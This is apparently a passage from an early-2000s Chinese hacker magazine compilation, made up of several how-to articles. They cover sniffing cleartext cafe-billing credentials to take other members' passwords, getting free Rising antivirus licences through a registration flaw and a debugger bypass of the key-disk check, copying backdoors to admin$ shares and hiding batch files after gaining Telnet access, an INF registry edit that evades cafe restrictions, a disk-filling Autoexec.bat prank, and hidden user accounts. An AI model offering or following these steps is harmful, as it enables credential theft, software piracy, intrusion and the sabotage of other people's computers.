想必大家都知道好多免费邮箱的用户名及密码都是明文传送的，很容易被监听捕获。我曾经拿自己的 sohu 免费信箱试过，结果……呵呵！差点吓出一场病哦！忘了说明一点，我使用的就是那个“特纯便捷嗅探器” Iris 4.00.2。可注册码、陈非网管极其精明，把一切都考虑周到了。事实上，我所在的学校机房及其周围众多的网吧，往往都忽略了这一点，因此，让我们这些普通的菜鸟有机可乘。

在学校的一个大型机房内（全部安装了 Win2000），我打开 Iris，轻轻一点开始，数据像瀑布似的往下流，其中 QQ 聊天室及其他聊天室的聊天内容都一览无余。至于更严重的……不知大家是否想过，像万象这类的基于网络远程控制的管理软件是否也发送明文数据呢？特别是我注意到，我经常去的那家网吧采用的是会员制，只有在万象客户端输入会员卡号和密码才能上机，而且我还注意到，上机之后，会员可以通过客户端的“修改会员密码”一项来修改自己的密码。当然，修改好的密码要传送到计费端的。

设想一下，这一过程是怎样完成的呢？开始，我认为这种数据的传送是经过加密的，想过把密码改成键盘上的每一个字符，一个一个地试，然后捕获这些数据包，如果是一对一的单字符加密的话，那一定很容易找出规律了。第一次我把我的会员密码修改为“1”，在修改之前先打开 Iris，直接点开始，不进行任何过滤，然后在修改密码的窗口上点击确定，如图1所示。


紧接着会弹出一个消息窗口，告知密码已修改成功。在这个消息窗口弹出后马上停止 Iris 的捕获。该网吧的机器都是按一定的顺序排的，如：X1，X2，X3……而且对应的 IP 也都是加 1 的关系，这样就比较容易找到对应的机器。在我从开始捕获到停止捕获的这一过程中，从未运行过其他任何与网络有关的程序，因此我认为只要找到对应我自己机器 IP 的那个数据包，就能确认它是客户端与计费端的通信。可是，我并没有发现自己的 IP，排除了其它机器，只有两个 IP 显示：“No IP...”的包（源端和目的端 IP 均为 No IP... 显示），如图2所示。

| 源 | 类型 | 目的 | 端口 |
|---|---|---|---|
| FF:FF:FF:FF... | 802.3 IPX | No IP add... | --- |
| FF:FF:FF:FF... | 802.3 IPX | No IP add... | --- |
| 00:30:F1:49... | IP UDP... | 81.141.19... / 192.168.0.222 | 8000 / 4000 |

点击查看这两个包的内容，我们可以看到如下内容，如图3、4所示。

```
E0 ......0.I..7..
FF ....4..........
58 .+.....0.I..X
31 22..B..cp@is19791
203~1
19791203是改前的密码
X22是我的机器名 1是改后的
```

图3

注意其中的一个包内（图3所示），有一段数据（图中标出），令我吃惊的是，那竟然是我的会员卡号和原密码及修改后的密码，天哪！完完全全暴露在我自己的面前。

进一步分析可知，其中一个包是客户端发送给计费端的，另一个是计费端返回的消息。既然修改密码这一过程是明文传送的，那么在一开始输入卡号密码上机这一过程中，是不是也这样呢？恰好这时有人下机，又有其他人接上，我就用以上“捕获修改密码数据包”同样的办法，发现了几乎相同格式的数据包（都显示为 No IP……的那一类），至于更重要的嘛……嘿嘿！那自然不用多说啦！

```
E0 E0 ......E9J..r..
FF FF ....0..........
03 4A .+.....E9J.+.J
4E 65 F..D..X22..YaNe
D0 DE t..error.......
B5 C7 ...............
B8 C4 ...............
0D 0A ...............
```

这是计费端返回的包

图4

可以想像万象这一漏洞所导致的后果，简直就如同探囊取物！无需破解密码，无需登录主机之类的烦琐步骤，随便一个稍懂点计算机的人动几下鼠标就可以得到想要的东西。各位从此都可以去网吧守株待兔了！

我在实验的网吧运行了 winipcfg，弹出如图5所示对话框。


看来，这多少与机器的设置有些关系！另外，在捕获的 QQ 的任何数据包中，我们看到的均为加密后的密文，这一点做得很好。所以，我希望万象的作者能注意到这一隐患，尽快将主客之间的通信加密，推出更为安全的网管软件；还有，在其它一些类似的涉及到网络通信的软件中，也应该注意相应的保密措施，不但要有本地的，而且传输的过程也不能忽略，这是我通过这一密码泄露事件对这种编写者提出的建议，其中有不妥的地方，恳请各位高手指出！


## 获得属于自己的瑞星杀毒软件 ID 号

宋君儒

瑞星杀毒软件 2003 是瑞星公司出品的最新杀毒软件，采用三重病毒分析过滤和多引擎杀毒技术，集文件级、邮件级、内存级、网页级于一体的实时监控系统，支持多种压缩格式，具有杀毒速度快、支持微型病毒查杀的特点，并且可以在 DOS 环境下查杀 NTFS 分区病毒。这么好的软件要花费 100 多大洋才能拥有它，囊中羞涩的我只能眼看着瑞星 2003 流口水了。

几乎每隔几天我都要去瑞星网站 www.rising.com.cn 去看看，虽然不能拥有它，但能看看它的研发公司的网站也是好的。突然有一天我发现了瑞星网站上有个漏洞，可以让我们免费使用瑞星杀毒软件 2003！


在这里要先向你说明一下：要想给自己的瑞星杀毒软件升级，必须拥有瑞星网站提供的授权 ID 才行。正版用户，只要在瑞星网站相应页面中输入用户名、序列号和手头上的瑞星的版本类型就可以得到该授权 ID，这个授权 ID 就是鉴别你是否为正版用户、是否可以下载升级文件的一个标识。如果是正版用户拥有该 ID 就可以在瑞星网站下载最新的升级包。如果没有该 ID 就无法在瑞星网站上下载最新的升级包。

好了！现在让我们正式开始吧！在浏览器的地址栏中输入 http://www.rising.com.cn/default.htm，可以看到瑞星网站的首页，在这里可以通过输入网站授权 ID 来升级瑞星，如图1所示。


如果忘记了 ID，可以通过点击“忘记授权 ID”来查找到自己的 ID，本来这里也存在一个漏洞，可以让我们免费使用上瑞星（见本刊第6期文章：《我是这样“猜”到瑞星杀毒软件授权的 ID》），但现在该漏洞已经堵上了。不过，在“忘记授权 ID”旁边的按钮“注册”中却让我发现了一个新漏洞，同样可以免费使用瑞星。

点击“注册”按钮，会来到如图2所示页面。


这里是让瑞星用户选择所用的是哪一版本的杀毒软件，在这里必须选择一款产品才能进入下一步。可供选择的产品有很多，但如果想免费使用瑞星杀毒软件，则只能选择“联想 OEM 版”或“东芝 OEM 版”，其它版本不要选择，因为点击其它版本会让你输入对应瑞星产品的序列号，而序列号只有正版用户才会有。有趣的是如果选择“联想 OEM 版”或“东芝 OEM 版”，就不需要输入序列号，这就是瑞星网站 bug 所在。

这里假设我们选择的是“联想 OEM 版”，点击“下一步”，会出现一个新的页面（很遗憾无法抓图给大家看，因为当时没有抓这个图，事后想补抓已来不及了。提示已经注册过无法再来到这个页面了，看来瑞星是通过电话号码而非 IP 地址判断你是否注册过，感兴趣的朋友可以自己试试），要你输入一些个人信息，如用户姓名、网站授权 ID 查询用语、购买地点、购买时间等等。要注意的是“网站授权 ID 查询用语”是为了方便以后你忘记了授权 ID 用的，要大于六个英文字母才可以；而“购买地点”建议选择北京或上海这样的城市，不为别的，只因为这两个城市的联想 OEM 版用户应该很多，“混水摸鱼”较方便。“购买时间”中的年份可以填入 1998、1999、2000、2001、2002 都可以，但不能填入还没有过的年份，如 2008 年绝对不能填入，否则准会出错。

点击“下一步”，会弹出如图3所示页面，在这里你会看到你的“网站授权 ID”和“网站授权 ID 查询用语”，并提示你已经成功注册为“联想 OEM”版产品用户。


至此已经成功了！以后使用这个网站授权 ID 就可以随意升级你的瑞星了！用这种方法得到的瑞星网站授权 ID，全部都是以字母 OLB 开头，“O”表示是 OEM 版，“L”是 legend 这个单词的缩写，而 legend 正是联想的英文名字。至于“B”代表什么我就不知道了，望高手指点。这也说明所有的联想 OEM 版的网站授权 ID 都是以 OLB 开头，长度为 9 位，为英文字母和数字组合而成，其中的英文字母都是大写。这样黑客还可以通过用于某软件生成## 黑客X档案2002－2003年合订本

以 OLB 开头的 9 位字典文件，然后使用朔雪等软件暴力破解瑞星网站授权 ID，想想看这对正版用户该有多大的威胁？

如果你想现在就升级，可以点击图 3 中的“去下载升级包”这个链接，就可以下载最新版的瑞星杀毒软件了。

将下载后的 oem.exe 文件用 WinRAR 解压缩，会得到许多文件，如果原来硬盘中装有瑞星的别的软件，此时直接运行其中的 rav.exe 就可以使用瑞星杀毒软件 2003 了！但显示的版本号还是老版本号，如原来安装的是瑞星 2002 增强版，则在瑞星 2003 界面的下方显示的“当前版本”为 14.26。这是因为在注册表中注册的信息还是瑞星 2002 增强版，可以到注册表中进行修改，不过，不改的话也不影响使用。

在解压后得到的文件中有个文件名为 Ugrade.exe，它是用来升级硬盘中原有的瑞星软件，对于该软件我有个奇怪的发现。用十六进制文件编辑器 UltraEdit 打开该文件（该文件没有加壳，可以直接打开），会看到如图 4 所示的一串字符串。


图 4

而从瑞星网站可以得知其杀毒软件的序列号为四组 6 位数字和字母组成的字符串，图 4 中所示的两组字符串是不是就是该软件的序列号呢？运行 Ugrade.exe，在提示输入序列号时试着输入刚刚看到的字符串，点击“确定”，会检查软驱中是否有瑞星加密盘存在，这难不倒我，用解密软件 TRW2000 可以轻松解决。

> 方法：下断点 BPX lmemcpy，可断点指令 module，回到 Ugrade.exe 的入口，发现跳到某个偏移地址时即可跳过对密钥盘的检测，输入序列号之后就会跳过，这样就解决掉检测密钥盘的问题。

现在大功告成！试试运行瑞星 2003 查毒，没有任何问题！再试试点击“工具”菜单中的“智能升级”，也可以升级，如图 5 所示，我已经升级到最新版了（截止 2002 年 12 月 12 日）。


图 5

另外，瑞星 OEM 版还存在安装漏洞，同样可以使我们跳过密钥盘检测，免费使用最新版的瑞星杀毒软件 2003。条件是你得找到随机捆绑赠送的瑞星 OEM 版本杀毒软件，这样就可以免费使用瑞星最新版并随时可以升级。以联想 OEM 版为例，方法是：

> 注意：将别人的联想 OEM 版本杀毒软件安装在自己的电脑上（安装时需要输入钥匙盘），安装完毕将软件运行起来并升级，安装时会在同目录下释放一些临时文件和重要的新版本，不要关闭，仅仅下载下来未经处理的升级包是无法安装的，复制下来就可以直接安装软件。跳过密钥盘检测这一步即可。

这一方法在其它非联想品牌的机子上亦可，我的试验步骤如下。

- 1. 利用朋友提供的网站授权 ID 到 http://www.rising.com.cn/register/PCver/GetUpGradePad.asp 下载瑞星的升级包和联想的 A 盘补丁，这个联想 A 盘补丁也是瑞星提供的，在瑞星网站上对该补丁是这样说明的：联想 OEM 版用户如果在升级过程中提示“请插入瑞星 A 号盘”，则下载该补丁。由此不难看出该补丁有什么用了。
- 2. 将升级包和联想 A 盘补丁放在同一目录下，运行联想的 A 盘补丁 LxOem.exe，点击“开始升级”。
- 3. 将联想 A 盘补丁的图标拖到瑞星的升级程序 ravoem.exe 上放开。

这样就可以跳过密钥盘检测，顺利地进入安装界面安装该软件，并且可以使用所有的功能！

> 注意：以上提到的漏洞或 bug，除了联想 OEM 版，其它 OEM 版也存在同样的问题，验证方法相同。

本文没有什么技术可言，只是利用了瑞星网站校验时的一个小 bug 而已。写此文的目的是希望藉此提醒瑞星能注意到这一漏洞，对非瑞星正版用户进行更严格的检测，在网站上将这一漏洞堵住。目前，瑞星杀毒软件 2003 日本版已经出口到日本，在瑞星扬帆出海走向国际市场的同时，让我们为瑞星喝彩，为国产软件加油！愿瑞星一路顺风！

# 几种常用命令的应用

### 1、copy 命令

这是一个大家比较熟悉的命令了，在上传后门程序的时候经常用得到的一个命令：

```cmd
copy c:\server.exe \\192.168.0.1\admin$\system32
```

上传后门程序到对方的 system32 目录下。当然，反过来用也可以，这样就成了下载了：

```cmd
copy \\192.168.0.1\admin$\system32\server.exe c:\
```

下载对方的 system32 目录下的 server.exe 文件到本地的 C 盘下。

接下来，使用 copy 命令编写一个批处理文件。很多朋友在人侵过程中都遇到过这种问题，就是得到了对方的 Telnet 后，想直接编写一个批处理文件保存在对方机器上（当然，也可以在本地机上先编写，然后再上传，但是这种方法显然不够方便），可以这样做：

```cmd
copy con c:\hack.bat
```

输入完上面的命令然后回车，接着就可以写命令了，最后按 Ctrl+Z 再加回车键就可以结束输入（如图 1 所示），等得到了成功信息之后就完成了。


### 2、ipconfig 命令


大家都用过吧，在 MS-DOS 或是 CMD 命令提示符状态下，键入 ipconfig/all 就能获得个人 IP、网卡地址、网关等信息（如图 2 所示）。这个命令在获得了对方的 Telnet 后，就显得非常有用了。

### 3、attrib 命令

这个命令其实完全是一个 DOS 下的命令，和网络没有任何关系，但是当我们获得了 Telnet 后，这个命令的作用就被体现出来了。

我们编写了一个批处理，但是不想让人发现它；就需要把它隐藏起来：先使用 copy con 命令编写批处理文件 hack.bat（编写完成后，按 Ctrl+Z，再按回车来结束编写），然后再用 attrib +h hack.bat 命令。

> 注意：如果当前工作位置不是在 hack.bat 所在位置，需要在 hack.bat 前加上路径，例如 `attrib +h c:\hack.bat`。如图 3 所示。


### 4、cacls 命令

这个命令是用来改变访问控制列表（ACL）的命令——啊呵，是不是太专业了，听不懂啊？简单说来，如果对方使用了 NTFS 权限，而你又得到了管理员的密码的话，那么你就可以通过这个命令来改变权限。

也许有人会奇怪：都是管理员了，还有什么得不到的吗？回答是肯定的！这是 Win2k 的安全机制决定的，如果大家自己的磁盘是 NTFS 格式的话，可以设置看看。

一个简单的实验，用管理员登录，设置某一个文件（本例中为 hack.txt 文件）的访问权限是 administrator，不允许对该文件执行任何操作，如图 4 所示。


这时候再双击这个文件试一试，你会发现即使你是管理员也不能访问（如图 5 所示），这就是 Win2k 的安全机制。


同样，如果换成了其他用户，你即使拿到了管理员帐号也许会有同样的情况，是不是害怕了？

没关系，谁叫咱是管理员呢！就用以下这个命令，再加上一个简单的参数就搞定。首先打开 CMD 命令行模式，我们先用 cacls 来查一下 hack.txt 这个文件的权限，再用 cd 命令转到 hack.txt 所在文件夹，然后使用命令：`cacls hack.txt`，这时候就可以看到用户 administrator 对这个文件的访问权限了，如图 6 所示。


图 6

这时候我们使用命令：`cacls hack.txt /P administrator:F`，然后会出现提示，只要按照提示选择 Y，然后回车，这时候 administrator 用户对这个文件的访问权限就是 full control 了，如图 7 所示。


图 7

这个命令还有很多参数可以选择，不过大家在使用前最好先弄清楚 Win2k 引入的权限问题，这样就可以活用这个命令了。

### 5、tracert 命令

这个命令是用来跟踪某个数据包，并记录在到达目的地的过程中经过的那些 IP 地址。

由于路由器选路是一个比较复杂的过程，所以不太可能第一次就选择到最短路径，换句话说，有可能发送十次数据包而这十次数据包所经过的路径都不一样；这样一来，使用几次 tracert 命令来跟踪数据包，就有可能搞清楚一个小型网络的结构。

这个命令只有四个参数，大家可以在 CMD 命令行模式下直接键入 tracert 看到。

这里只讲一个用法，就是 `tracert ip`，这是一个虽然简单但却非常有用的命令。下面根据一个实例来说明，下图是我在一个交换型局域网内使用 tracert 命令的结果，如图 8 所示。


图 8

> 说明：这里使用命令 `tracert x.x.x.68`，经过路由器后转发，先到达 `x.x.x.110` 和 `x.x.x.130` 这两台主机后才转发到目的地 `x.x.x.68`。后来根据了解，`x.x.x.110` 是这个内部网络的网关，另外一个 IP 地址还不清楚，不过这时候大家就应该可以看到 tracert 的作用了。将来我们搞清楚这个内部网络的结构，那么我们就已经必须定目标了，就是这个网关 `x.x.x.110`，这条信息你说有用没用？

接下来，简单讲述一下 tracert 的工作原理：

大家都知道 ping 命令，这个命令使用的协议是 ICMP，如果 ping 对方可以 ping 通的话，那么便返回一个 ICMP 数据包，告诉你，已连通对方了。

> 注意：另外一个 TTL 值其实是应该讲清楚的，就是为了不送给网络上的垃圾。给每个数据包都设置一个 TTL 值，等经过一个交换设备，TTL 值就减一；当 TTL=0 的时候，这个包就被丢掉了，这样就避免了网络上垃圾数据的产生。

tracert 命令的原理就是结合以上两部分内容的原理：tracert 命令同样使用 ICMP 协议发包，每次发一个 TTL=1 的数据包，当数据遇到一个交换设备的时候，这个数据包的 TTL 就减一；这个包的 TTL 就等于 0 了，于是交换设备会返回一个 ICMP 数据包，告诉主机：你的数据包已经丢弃了。而在这个返回的数据包的报头里写有这个交换设备的 IP 地址，这样我们就可以获得它的地址了。

还有一点，大家在使用 tracert 命令的时候，很有可能会遇到无法显示 IP 的问题，如图 9 所示。


图 9

大家可以看到图 9 中全是 * 号，这就很有可能是装有防火墙，或这台主机根本就是一台防火墙。

### 6、netsh 命令

相信很多人都没见过这个命令，这个命令可是一个有着非常强大功能的命令哦！

首先我们用 netsh 命令查看一下本地机的网络配置情况，依次输入：

- `netsh`（回车）
- `interface`（回车）
- `ip`（回车）
- `dump`（回车）

这样就将得到本地机上的网络配置情况，如图 10 所示。


图 10

这个命令不但可以查看本地机器的网络配置情况，还可以实现在命令行模式下修改本地网络配置，这里为大家讲一个最简单的实例，就是实现在命令行下修改本地网络配置。

netsh 带了一个参数 `-c`，可以用来导出配置脚本，命令使用方法：

```cmd
netsh -c interface ip dump > c:\config.txt
```

在命令行模式下使用该命令后，netsh 命令会把本地机的网络配置脚本导出到 C 盘下的 config.txt 文件中。然后，到 C 盘下打开 config.txt，如图 11 所示。


图 11

通过这个文本，可以看到本机的配置情况，IP 地址为 192.168.0.253，子网掩码为 255.255.255.0。如果想修改的话，我们可以在文本中直接修改，然后再把文本导入就可以了。

例如，这里我们把 IP 地址修改为 192.168.0.115，然后把文本保存，再使用下面命令：

`netsh -f c:\config.txt`

这样就导入完毕了，然后用 `ipconfig` 命令查一下（如图 12 所示），会发现 IP 地址已经变成了 192.168.0.115。


图 12

怎么样？命令行模式下修改 IP 地址就是这么简单。同样道理，还可以使用 `netsh` 的导出和导入命令来修改其它的配置。例如网关、WINS 等，由于我这里没有这样的条件，就不做给大家看了。有兴趣的话，可以查看一下 Windows 的帮助。

# 如何对付网络执法官

孙佼

“网络执法官”的攻击原理和“局域网络终结者”等同类软件的原理差不多，但功能好像多一点，都是利用构造虚假 ARP 包来欺骗网络主机，使得被指定的主机被迫从网络中断开，或者产生 IP 地址冲突。程序只能在同一路由作为划分的同一网络主机产生作用。

如何对付？我也不懂（哇，谁扁我！）我真的没找到一个可以防范的办法，但我们可以以其人之道还治其人之身，所以只是对付，而不是防范。

首先让我们来看看校园网络执法官这类软件攻击的图例。如图 1 所示，系统除了弹出 IP 冲突对话框，而且你的网络也从局域网内断开网络连接。


图 1


图 2


这样的恶意攻击实在让人无法忍受。我不知道高手们有没有办法防范，我不能，但我可以找到是谁搞的鬼，这在同一个局域网内很容易查出来的。

现在我们就来看看是谁搞的鬼。在发生 IP 冲突的时候，系统将记录和哪个网卡地址发生了冲突，我们就可以打开“控制面板”→“管理工具”的“事件查看器”中的“系统日志”中查看错误（TCPIP，也就是第一行的那个错误了），如图 2 所示。

用右键点击它，在菜单中选择“属性”，看到了吗？黑体部分就是攻击我们的那家伙所在的 MAC。这样就看到了谁在攻击我了，如图 3 所示。

图 3

接下来怎么办？

你可以跟踪 MAC 地址来源。同样去找一个网络执法官，查看 MAC 所绑定的 IP 了。如果你足够凶悍，你可以一下就找到这个家伙了。

原来就这么简单！

## 黑客X档案2002-2003年合订本

## WinRAR 在系统安全方面的四点技巧

### 1、用 WinRAR 突破网吧管理软件的限制

在网吧上网的朋友经常受到网吧管理软件的限制，用 WinRAR 可以让我们重新找到自由。

首先，从网上下载 WinRAR，但网吧管理软件会禁止下载文件。所以，我们只要先突破这个限制才行。用浏览器浏览网页，查看网页源代码，然后将里面的内容全部删除，在里面写入如下内容：

```ini
[Version]
Signature="$CHICAGO$"

[DefaultInstall]
DelReg=shanchu

[shanchu]
HKCU,"Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3",1803
```

保存为以 .inf 为扩展名的任意文件，然后用鼠标左键单击选中该文件（因为此时鼠标右键被禁用，所以要用这种办法来突破鼠标右键被禁用），同时按住 Shift+F10 键，即可显示出鼠标的右键菜单，选择“安装”即可将上述内容导入注册表，从而突破下载文件的限制。这样就可以下载 WinRAR 了。

安装完成后，运行 WinRAR，在 WinRAR 的“文件”菜单中选择“改变驱动器”（如图 1 所示），选择一个盘符如 C：就可以进入硬盘了。


接着，我们进入到 `C:\Windows\System` 目录下，找到“显示桌面.scf”这个文件并双击运行，这时整个桌面会回到原来 Windows 的桌面。

接下来，再利用 WinRAR 找到 `C:\Windows\System` 目录下的 “Inetcpl.cp” 文件，并改名为 “Inetcpl.cpl”，这样 IE 浏览器里的 Internet 选项也可以使用了。

如果要使用控制面板，可以在浏览器的地址栏中键入 `file:///c:/windows/control.exe`（这里假设 Windows 安装在 C 盘 Windows 文件夹下），就会出现控制面板窗口。或者在浏览器地址栏中输入：`file:///::{20D04FE0-3AEA-1069-A2D8-08002B30309D}%7D%5C::%7B21EC2020-3AEA-1069-A2DD-08002B30309D%7D`，也可以打开控制面板。现在，网吧管理软件管不住你了吧？

### 2、识破用 WinRAR 装扮过的木马

用 WinRAR 来给木马做“装扮”——把木马服务端程序和 WinRAR 捆绑在一起，将其制作成自释放文件，这样捆绑后是非常难以察觉的，即使是用最新的杀毒软件也无法发现！

识别的方法是：对着经过 WinRAR 捆绑的木马文件点击鼠标右键，查看“属性”，在弹出的“属性”对话框中，会发现多出两个标签“档案文件”和“注释”，点选“注释”标签，你就会发现木马文件了。

## 3、如何不激起别人的破解欲望

几乎所有的压缩软件都提供了加密功能，以此保护个人的隐私和重要数据。但是它们大多忽视了对文件名的加密。随着 CPU 主频的迅速攀升，破解压缩包的密码变得越来越容易，只要机器够快、只要多花些时间，任何密码都有可能被攻破。一旦别人对你的数据产生了兴趣，数据的安全就变得岌岌可危。因此，最好能把文件名也列入加密范围。假如根本不知道压缩包里面存了些什么，谁还会费时费力进行破解？

大名鼎鼎的 WinZip 并没有提供这个功能，好在用 WinRAR 可以做得到。首先在 WinRAR 的主界面点击“添加”按钮，来建立一个新的压缩包，然后在弹出的窗口上选择“文件”选项卡，并选定要添加到压缩包的文件；接下来切换到“高级”选项卡，单击“设置密码”按钮（如图 2 所示），输入密码。


切记在点击“确定”之前，一定要选中“加密文件名”一项（如图 3 所示），否则前功尽弃。


## 4、避免反复输入密码

有时，我们用 WinRAR 对文件进行加密，可是每一次执行 ZIP 压缩包里的程序时，它都要询问密码，当文件较多时，使人不胜其烦。而 WinZip 就当它不存在一样。WinZip 只在执行第一个文件的时候要求输入密码，只要通过了密码验证，就可以直接查看压缩包里面的其它文件。

要想方便些也不是不可以：只要在打开加密的压缩包以后，用鼠标点击“文件”菜单里的“口令”项，并且输入正确的密码，就可以一次解决问题。

## 侵瓜黑客

# 巧用DOS命令捉弄


今雪草

有些时候，我们想和朋友开个玩笑，用黑软未免有些太麻烦了，而且现在的朋友比谁都精，想让他们上当也不容易，没准反倒被他（她）们给黑了，呵呵。其实，用DOS的命令就可以跟他们开个玩笑且简单方便，效果也不错。以下是几个很常用的整蛊小方法，大家不妨一试。

## 1. 制造死机假象

如果你不想让别人使用你的电脑，又不好意思说，那该怎么办呢？在CMOS中设密码，太小气了吧？他如果问你，你好意思不说吗？做个假死机现象来欺骗对方是个不伤和气的好方法！

在Windows目录中用记事本程序建立一个名为 Winstart.bat 的文件，如果已经存在则修改其内容，并在该文件中加入以下两行命令：

```bat
@echo off
choice /c:& /n /t:3
```

编辑完毕，保存该文件即可。解释一下，上面代码中的“&”为我们设置的密码，便可以告诉别人忘记设置了。这样在启动Windows时系统将要求输入密码，表现在屏幕上就是光标一闪一闪的，造成朋友以为Windows死机的假象，就算他是高手也会上当受骗。当我们要进入系统时，只要输入“&”即可。

## 2. 让别人以为电脑坏了

除了上面这个方法，我们还可以用下面这个小办法来欺骗一下他人的眼睛，使他以为电脑坏了。方法是首先在DOS下建立一个空的 null.sys 文件，输入：

```bat
copy con null.sys
```

什么也别输入，再按一次回车键，然后按 Ctrl+Z 或按 F6 键。屏幕上会显示“^Z”，这样文件就建立好了。

然后，在C盘根目录下建立一个 config.sys 文件，编辑其内容为：device=c:\null.sys /d:null。以后，你的电脑一启动，当出现Windows的启动画面时就会重新启动，如此反复下去，别人一定以为电脑出问题了，而你就可以偷偷乐了^_^！

## 3. 让文件夹不可用

有些时候，电脑中有需要加密的文件夹，用工具软件固然可以给该文件夹加密，但那样也会引起别人的特别注意：里面是不是有什么好东东啊？竟然不告诉我？用DOS命令简单地给该文件夹加密就可以解决这个问题。在硬盘根目录下建立一个 config.sys 文件，内容为：

```bat
subst c: c:\windows
```

这样，系统启动后，原来的C盘根目录就会变成 Windows 目录，用 `cd windows` 命令会提示 `Invalid directory`，即非法目录，无法进入！

破解的方法其实很简单，只要用软盘启动系统或跳过 config.sys 文件的执行，将 config.sys 文件中的那一行去掉就可以了。

## 4. 让电脑死机

上面说的都是防御的方法，再说个进攻的方法。比如说，你正在朋友的电脑上，该怎么让电脑死机呢？方法当然有很多，这里向你介绍一种利用DOS命令的简便方法。打开C盘根目录下的 Autoexec.bat 文件（如果没有可以用记事本建立该文件），然后将其中的内容全部删除，输入如下两行命令保存好就可以了：

```bat
@cd>>notepad
@%0
```

如果重新启动电脑，只会看到：Starting MS-DOS...，之后电脑就会死机了，而且期间不会接受任何指令。

要破解这个方法，只要用软盘启动电脑，或跳过 Autoexec.bat 文件的执行，再把上面的指令给去掉就行了。

> **小提示**
>
> “@”符号，表示在DOS下不显示后面的命令，这样就可以把危险指令掩藏起来，来个神不知鬼不觉。
>
> “cd>>notepad”，就是把当前的目录拷贝成一个名为 notepad 的文件；“>>”表示保存到，和“>”不同的是“>>”会将保存结果加到文件的最后，而“>”是覆盖的意思。所以用“>>”的结果就是保存的文件越来越大！
>
> “%0”意思是不断地重复上面一条指令，其结果就是名为 notepad 的文件也会越来越大，直到填满了整个硬盘，此时他的电脑就只有死机一条路可走了。

## 5. 让别人找不到你的秘密

如果不想让别人看到你的秘密，如情书、密码等，该怎么办？存为文件然后使用工具软件加密？好办法！但你禁得住朋友的“严刑逼供”吗？！最好的办法是不引起别人注意地把文件藏起来，比如说把秘密文件和图片利用文件捆绑在一起就是个好方法，用DOS下的 Copy 命令就可以完成你的心愿。

假设你的秘密文件名为 1.txt，其中存有密码等信息，图片文件名为 1.jpg，是个美丽的风景图片。在DOS下键入 `copy 1.jpg/b+1.txt/a 1.jpg`，回车，就可以将 1.txt 文件合并到 1.jpg 文件的后面。这样，当别人双击 1.jpg 文件时看到的将是一幅图片，怎么也想不到里面还有小秘密存在！而你要查看密码时，可以选择用记事本打开该文件（用鼠标右键单击该 jpg 文件的同时按 Shift 键，在弹出的菜单中选择“打开方式”，选择用记事本打开），在文件的开头你会看到一堆乱码，这是 jpg 文件。在文件的尾部，会看到你的 1.txt 文件的内容。

怎么样？没有想到小小的DOS命令还有这么大的作用吧。其实，这些仅仅介绍了几个小技巧，DOS的魅力远不止这些！最后声明一点，请不要用本文提到的方法搞破坏，否则后果自负！


# 用网络蚂蚁获得远程主机信息

我的很多朋友都问我，如何判断远程主机是什么操作系统之类的问题？下面我将最近发现的网络蚂蚁的一点另类应用拿出来分享一下。

平时，当我们用网络蚂蚁在某个服务器上下载文件时，在主界面中选择日志选项卡（屏幕中部），你将看到许多关于服务器的信息，如下图所示。


- 1. 2002/12/21 21:40:14 Host: ws5.zbii.com（主机名）；
- 2. 2002/12/21 21:40:14 HTTP/1.1 206 Partial Content（版本为 1.1）；
- 3. 2002/12/21 21:40:14 Server: Apache/1.3.23 (Unix) (Red-Hat/Linux)（操作系统为 Apache/1.3.23 (Unix)）。

如何？没想到我们经常用的网络蚂蚁的功能还不赖吧！

> 注意：还有一点需要说明，你所下载的文件必须在你要探测的服务器上下载，因为有些网站不是供本地下载，只提供一个下载的连接，这在下载时是看不到这些信息的。

## 在 Windows 2000 中安装怀旧软件其实很简单

如果我们使用的是 Windows 2000 与以前操作系统并存的多重系统，现在想在 Windows 2000 中安装使用在原有系统中已安装过的应用程序，对于不同的应用程序一般有 3 种情况：

- 1. 有些应用程序（如 Foxmail 3）运行时不用调用系统目录中的文件或注册表中的信息，可在其安装路径下找到执行文件，直接运行即可，不用安装。
- 2. 有些应用程序（如 Flash 4）虽可直接运行，但会要求用户重新输入注册信息，我们只要按要求正确输入后即可使用，也不用安装。
- 3. 大部分较大的应用程序都需要在 Windows 2000 下重新安装后才能运行。此时，我们可在其原有的安装路径下进行覆盖安装，这样安装后增加的是装入系统目录和注册表的文件和信息，大大节省了硬盘空间。

另外，由于 Windows 2000 是一个全新的操作系统，一部分现有的应用程序还不能在 Windows 2000 下安装或运行。其实，Windows 2000 已为我们考虑到了这个问题。从 Windows 2000 安装光盘的 Support/Tools 目录中运行 Setup 命令即可安装一组 Windows 2000 的支持工具，其中的一个名为 Application Compatibility Tool 的工具可用于在 Windows 2000 中安装以前 Windows 9x 或 NT 以及跑一部分不能在 Windows 2000 中安装或运行的应用程序，使其顺利安装或运行，大家可以试试。

## 变身地狱帐户隐藏

现在的扫描攻击活动日益“猖獗”，如何把自己的计算机全面武装起来，这是个非常严峻但又非常现实的问题，于是我们就免不了装上杀毒软件、防火墙。但这并不说明你的计算机已经是高枕无忧啦！因此为了使自己的电脑更具安全性，我们可以在用户帐户方面下一功夫，那就是把我们的帐户隐藏起来，让攻击者无从下手。

大家都知道，骇客们要进入你的计算机就必须从获得帐户名称和密码开始。隐藏帐户的方法有很多，下面向大家介绍两种比较简单的方法：

### 一、使用 ASCII 码字符命名帐户名

我们可以用 ALT 键加数字小键盘上的数字来产生一些特殊的字符，甚至还可以在用户名后面加上 N 个空格。

```bat
net user "…" windly /add
```

像这类的帐户，在中文的 Windows NT/2000/XP 系统中因为帐户名放在最后一行，所以很难留意到；但在英文系统中，空格帐户会显示在第一行（用 `net user` 命令就可以看得到）。当然我们还可以在用户名中使用一些其它 ASCII 字符，以此来增加攻击者破解的难度。

### 二、在帐户名称后加上“$”符号

知道吗？一个类似于以“$”结尾的帐户用 `net user` 是无法看到的，那是因为微软系统对于 $ 字符都会过滤，像 C$、D$ 等都是一样的，所以让人很难发现此帐户的存在，建议将第一种方法和此种方法一起使用，安全性更高。

```bat
net user " $" windly /add
```


上面两种方法在命令提示符状态用 `net user` 难以发现，但是在控制面板中的用户帐户中还是一清二楚的，但是经过上面的小小技巧后，也给那些骇客们设置了一个小小的障碍！

# Fluxay VS X-scan

——“流光”和 X-scan 扫描软件比较

监狐翔

